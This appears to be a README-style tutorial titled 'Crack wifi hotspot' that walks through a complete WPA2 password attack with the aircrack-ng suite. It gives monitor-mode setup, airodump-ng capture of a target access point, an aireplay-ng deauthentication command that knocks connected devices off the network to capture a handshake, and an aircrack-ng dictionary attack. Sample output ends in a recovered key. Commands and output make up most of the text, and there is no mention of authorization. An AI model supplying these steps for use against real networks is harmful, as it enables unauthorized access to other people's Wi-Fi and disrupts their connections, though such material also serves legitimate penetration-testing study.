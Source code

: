 

### Crack wifi hotspot

⚠ most of the steps described here are to be run in super user mode

#### _I_ - Prerequisites
check that you have `airocrack` installed on your machine

#### _II_ - check your interfaces 
run  `airmon-ng` and chose a network interface, I used the one that says `[phy0]`. On my machine it was `wlp2s0`.

#### _III_ - Start an interface in monitor mode
run `airmon-ng start <your-interface> 9`
`9` is to start it in monitor mode.

I got this error 

```plaintext
Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode
```

I this case we can run `airmon-ng check kill`

Then we can try starting it again. (be careful the name is likely to have changed. Mine went from `wlp2s0` to `wlp2s0mon`)

#### _IV_ - Capture data

Now you want to get the mac address of the network you're trying to attack.

To do so you can run `airodump-ng <your-interface>`.

Find your network's BSSID (the MAC address of your Wi-Fi access point) and channel from the list.

#### _V_ - Capture packets

Now you will target your network specificaly :

```
airodump-ng -w psk --bssid <your_BSSID> -c <your_channel> <your_wireless_interface>
```

`BSSID` is the mac address of the network you're attacking.
`-w psk` will give us `.psk` files as output.
`your channel` is if you know the channel of the network, if not specified airodump will try different channels continuously.

You can get the channel of the AP with :
```
aireplay-ng -0 1 -a <network-address> -c <device-address> <your-interface>
```

⬆ This will in fact try to disconnect someone from the network. You will get the channel of the network and possibly a handshake this way


The output will look like this :

```plaintext
CH  5 ][ Elapsed: 2 mins ][ 2023-12-02 09:05

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 70:FC:8C:35:B0:9B  -42      192      111    0  11  195   WPA2 CCMP   PSK  <Name-of-the-network>

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 70:FC:8C:35:B0:9B  04:52:F1:27:F0:DE  -54   24e-24      0        4
 70:FC:8C:35:B0:9B  40:06:A3:59:7C:F9  -48   24e- 6      0       21
 70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -30    1e- 1      0      157
 70:FC:8C:35:B0:9B  72:DB:3B:E3:E8:C9  -51    1e- 6e     0       52
```

This line is your network :

```plaintext
70:FC:8C:35:B0:9B  -42      192      111    0  11  195   WPA2 CCMP   PSK  <Name-of-the-network>
```

Thoses lines are the devices connected :

```plaintext
70:FC:8C:35:B0:9B  04:52:F1:27:F0:DE  -54   24e-24      0        4
70:FC:8C:35:B0:9B  40:06:A3:59:7C:F9  -48   24e- 6      0       21
70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -30    1e- 1      0      157
70:FC:8C:35:B0:9B  72:DB:3B:E3:E8:C9  -51    1e- 6e     0       52
```

If it is empty you have to be patient and wait that someone connects.

#### _V_ - Wait for handshake

The thing you are waiting for is a 4-way-handshake in order to bruteforce the password locally.

Two ways to know you have got one :

The header will state :

```plaintext
CH 11 ][ Elapsed: 1 min ][ 2023-12-02 09:07 ][ WPA handshake: 70:FC:8C:35:B0:9B
```

A line will state `EAPOL` :

```
70:FC:8C:35:B0:9B  1E:88:14:13:08:41  -25    1e- 1      0      491  EAPOL
```

One you have this you can quit `airodump`.


#### _VI_ - Bruteforce the password

What you could do is to open wireshark, filter for `eapol`, find the hash and bruteforce it with hashcat, but the airocrack suite gives us tools to do it more quickly. Just run :

```plain
aircrack-ng -w password.tkt -b <your-bssid> psk*.cap
```

`password.txt` is your dictionary,
`<your-bssid>` is the mac address of the network.

```plaintext
Reading packets, please wait...
Opening psk-02.cap
Opening psk-01.cap
Opening psk-03.cap
Read 1062 packets.

1 potential targets

Resetting EAPOL Handshake decoder state.

                               Aircrack-ng 1.7

      [00:00:00] 2/12 keys tested (48.49 k/s)

      Time left: 0 seconds                                      16.67%

                       KEY FOUND! [ password1234 ]


      Master Key     : D0 9F 67 F5 88 CD 93 87 B9 C7 93 30 7A 94 CF 49
                       EA A5 78 A9 E2 F3 94 F2 42 A0 41 E8 E4 EF F8 55

      Transient Key  : 94 9C 2F 22 2A BD 03 19 A3 6D 07 0C 71 02 73 27
                       97 22 A3 69 E0 EA CC 95 2B 65 F3 64 AF C3 5A 81
                       5B 38 61 FA AC C8 CE 8B D9 C7 C8 AD 29 99 17 C4
                       23 4C C3 C6 93 6A CA 48 D9 42 2B 0B C6 F3 79 01

      EAPOL HMAC     : D2 9D 64 48 FE AB 29 88 27 F1 4E 35 E9 66 A1 3F
```


[How to crack wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

#### _VII_ - Put your interface back in normal mode

Stop your monitor mode interface : 
`airmon-ng stop <monitor interface>`

Restart your NetworkManager :
`sudo systemctl start NetworkManager`